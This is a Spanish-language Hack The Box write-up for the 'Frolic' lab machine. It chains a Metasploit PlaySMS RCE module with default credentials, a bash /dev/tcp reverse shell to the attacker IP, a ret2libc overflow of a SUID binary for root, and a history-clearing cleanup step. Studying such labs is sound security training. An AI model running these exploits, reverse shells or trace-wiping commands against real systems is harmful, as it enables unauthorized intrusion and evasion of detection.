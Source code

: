```yaml
---
title: "HTB — Frolic (Write‑up)"
tags: [htb, linux, frolic, web, playsms, cve, privesc, ret2libc, suid, writeup]
date: 2025-09-06
author: Iván + ChatGPT
---
```


# Frolic — Hack The Box (Linux)

> **Dificultad:** Easy  
> **Vector:** Web (PlaySMS) → RCE → SUID `rop` → ret2libc → root  
> **Mi entorno:** Kali, VPN HTB activa  
> **RHOST (box):** `10.129.133.76`  
> **LHOST (mi IP VPN):** `10.10.14.156`  
> **Carpeta de trabajo local:** `~/Desktop/Maquinas/Frolic`

---

## Resumen del camino

1. **Recon:** `nmap` revela puertos `22, 139, 445, 1880 (Node-RED), 9999 (nginx)`.
2. **Web :9999:** existe `/playsms/` (302 a login).  
3. **Explotación PlaySMS:** módulo `exploit/multi/http/playsms_uploadcsv_exec` con `admin:idkwhatispass` → **meterpreter**.
4. **Reverse shell** adicional (nc) desde meterpreter para comodidad.
5. **PrivEsc:** SUID `/home/ayush/.binary/rop` vulnerable a **buffer overflow** (ret2libc, offset 52) → **root**.
6. **Flags:** user y root capturadas.

---

## 0) Variables y carpeta de trabajo

```bash
cd "$HOME/Desktop/Maquinas/Frolic" || exit
export WORK="$HOME/Desktop/Maquinas/Frolic"
export RHOST=10.129.133.76
export LHOST=10.10.14.156
mkdir -p "$WORK/scan" "$WORK/loot"
```

> **Tip:** ajusta `RHOST`/`LHOST` a tu instancia y tun0.

---

## 1) Recon

```bash
nmap -p- --min-rate 5000 -sS -n -Pn "$RHOST" -oN "$WORK/scan/all_ports"
nmap -sCV -p22,139,445,1880,9999 "$RHOST" -oN "$WORK/scan/services"
```

**Salvable esperado (Frolic clásico):**

- `22/tcp` OpenSSH 7.2p2 (Ubuntu)
- `139, 445/tcp` Samba 4.3.11-Ubuntu (sin shares útiles)
- `1880/tcp` Node-RED (HTTP 200)
- `9999/tcp` nginx 1.10.3 (HTTP 200)

---

## 2) Web :9999 — comprobaciones rápidas

```bash
# comprobar rutas clave
for p in "" admin admin/success.html backup dev test playsms robots.txt; do
  u="http://$RHOST:9999/${p}"; [ -z "$p" ] && u="http://$RHOST:9999/"
  printf "%-35s -> %s\n" "$u" "$(curl -s -o /dev/null -w "%{http_code}" "$u")"
done | tee "$WORK/scan/http_quickcheck_9999.txt"

# seguir redirect de /playsms/
curl -s -D - -o /dev/null "http://$RHOST:9999/playsms/"
```

> En esta corrida: `/playsms/` responde **302** a `index.php?app=main&inc=core_auth&route=login` → **PlaySMS activo**.

**Nota (camino alternativo):** Algunos resets muestran puzzles en `/admin/success.html` con **Ook!/Brainfuck** que revelan un **SECRET** (p. ej., `/asdiSIAJJ0QWE9JAS`), el cual devuelve un **ZIP** en Base64 con la **password** de PlaySMS. En esta sesión **no fue necesario** porque las credenciales por defecto funcionaron.

---

## 3) Explotación — PlaySMS (RCE)

**Módulo Metasploit:** `exploit/multi/http/playsms_uploadcsv_exec`

```bash
msfconsole -q -x "
use exploit/multi/http/playsms_uploadcsv_exec;
set RHOSTS $RHOST;
set RPORT 9999;
set TARGETURI /playsms/;
set USERNAME admin;
set PASSWORD idkwhatispass;
set SSL false;
set VERBOSE true;
run"
```

**Salida relevante (éxito):**
```
[+] Authentication successful: admin:idkwhatispass
[*] Sending stage ...
[*] Meterpreter session 1 opened (10.10.14.156:4444 -> 10.129.133.76:50936)
```

> **Nota payload:** el módulo puede usar `php/meterpreter/reverse_tcp` por defecto; también funciona con `cmd/unix/*`. Lo importante es setear **RPORT=9999** y **TARGETURI=/playsms/**.

---

## 4) Reverse shell (nc) desde meterpreter (opcional pero cómodo)

En **equipo local**:
```bash
rlwrap nc -lvnp 5555
```

En **meterpreter** → `shell` y lanzar:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.156/5555 0>&1'
```

TTY mejorada:
```bash
python -c 'import pty; pty.spawn("/bin/bash")' 2>/dev/null || python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

**User flag:**
```bash
ls -la /home/ayush
cat /home/ayush/user.txt
# 2b84d1259170d86d1ca2546408fcda8f
```

---

## 5) Escalada de privilegios — SUID `rop` (ret2libc)

### 5.1 Localizar y revisar el binario

```bash
find / -perm -4000 -type f 2>/dev/null | grep -E "rop$"
# /home/ayush/.binary/rop

ls -l /home/ayush/.binary/rop
# -rwsr-xr-x 1 root root 7480 ... /home/ayush/.binary/rop

file /home/ayush/.binary/rop
# setuid ELF 32-bit LSB executable, dynamically linked, not stripped
```

### 5.2 Construir el payload (offset 52)

**Valores que funcionaron en Frolic (libc 32-bit):**

- `offset = 52`
- `system = 0xb7e53da0`
- `exit   = 0xb7e479d0`
- `"/bin/sh" = 0xb7f74a0b`

> Si no funcionan tras un reset, calcula tus direcciones:
> ```bash
> strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
> objdump -T /lib/i386-linux-gnu/libc.so.6 | egrep " system$| exit$"
> ```

**Script payload:**
```python
# /tmp/ret2libc.py
import struct
offset = 52
system = 0xb7e53da0
exit_  = 0xb7e479d0
binsh  = 0xb7f74a0b
payload = b"A"*offset + struct.pack("<I",system) + struct.pack("<I",exit_) + struct.pack("<I",binsh)
open("/tmp/payload","wb").write(payload)
print("Payload listo")
```

**Ejecución:**
```bash
python /tmp/ret2libc.py 2>/dev/null || python3 /tmp/ret2libc.py
/home/ayush/.binary/rop "$(cat /tmp/payload)"
id; whoami
```

**Root flag:**
```bash
cat /root/root.txt
# 8e480fb48a91dc8fec38de434556cbb6
```

---

## 6) Limpieza (opcional)

```bash
rm -f /tmp/payload /tmp/ret2libc.py
history -c 2>/dev/null || true
```

---

## Troubleshooting rápido

- **Metasploit “NoMethodError body nil”** → faltaba `RPORT=9999` o `TARGETURI=/playsms/`.
- **Login PlaySMS falla** → resolvé puzzle de `/admin/` (Ook! → Brainfuck → SECRET → ZIP → pass) o enumerá `/admin/` con `gobuster`.
- **ret2libc no funciona** → recalcula direcciones de `libc` con `strings/objdump`, verifica endianidad (`<I`) y **offset=52**. Mantén comillas en `$(cat /tmp/payload)` (payload binario).

---

## Appendix — Comandos “todo en uno”

**Metasploit (PlaySMS):**
```bash
msfconsole -q -x "
use exploit/multi/http/playsms_uploadcsv_exec;
set RHOSTS $RHOST; set RPORT 9999; set TARGETURI /playsms/;
set USERNAME admin; set PASSWORD idkwhatispass;
set LHOST $LHOST; set LPORT 4444; set SSL false; run"
```

**Reverse shell (listener + one‑liner bash):**
```bash
rlwrap nc -lvnp 5555
# en la box
bash -c 'bash -i >& /dev/tcp/10.10.14.156/5555 0>&1'
```

**ret2libc (payload y ejecución):**
```bash
python /tmp/ret2libc.py 2>/dev/null || python3 /tmp/ret2libc.py
/home/ayush/.binary/rop "$(cat /tmp/payload)"
```

---

## Créditos / Notas

- Box: **Frolic** (HTB) — Linux (2018).  
- PlaySMS exploit: `playsms_uploadcsv_exec` (auth RCE).  
- Privesc: clásico **ret2libc** en binario SUID 32-bit.

> Uso educativo/CTF. No aplicar en sistemas sin autorización.
